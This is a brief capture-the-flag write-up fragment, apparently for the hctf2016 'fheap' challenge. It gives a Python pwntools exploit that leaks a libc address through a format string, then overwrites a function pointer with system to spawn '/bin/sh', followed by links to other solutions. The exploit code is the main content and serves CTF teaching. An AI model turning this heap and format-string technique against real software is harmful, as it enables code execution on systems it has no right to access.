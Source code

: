 ```python
# overwrite 2 printf leak libc
delete(0)
payload = '%22$p'.ljust(0x18,'a') + p64(0xDBB)[0]
add(len(payload),payload)
delete(1)
leak_addr = int(p.recv(14),16)
log.info("leak_addr:"+hex(leak_addr))
libc_addr = leak_addr - 0x78c0f
log.info("libc_addr:"+hex(libc_addr))
system_addr = libc_addr + libc.sym['system']
log.info("system_addr:"+hex(system_addr))
str_binsh = libc_addr + libc.search('/bin/sh').next()
log.info("str_binsh:"+hex(str_binsh))
# one = [0x45226,0x4527a,0xf0364,0xf1207]
# onegadget = one[0] + libc_addr
# log.info("onegadget:"+hex(onegadget))

p.sendline('skye')
p.sendline('skye')

# system('/bin/sh||aaa……')
delete(0)
payload = '/bin/sh||'.ljust(0x18,'a') + p64(system_addr)
add(len(payload),payload)

# gdb.attach(p,'b *$rebase(0x2020C0)')
# # gdb.attach(p,'b *$rebase(0xDBB)')
delete(1)


p.interactive()
```

#### 其他解法

* [hctf2016 fheap学习(FlappyPig队伍的解法)](https://www.cnblogs.com/shangye/p/6156350.html)

* [hctf2016 fheap学习(FreeBuf发表的官方解法)](https://www.cnblogs.com/shangye/p/6156391.html)

  DlyELF 泄露 libc 地址

* [hctf2016-fheap Writeup](http://blog.eonew.cn/archives/586#UAFfreeShortputs)

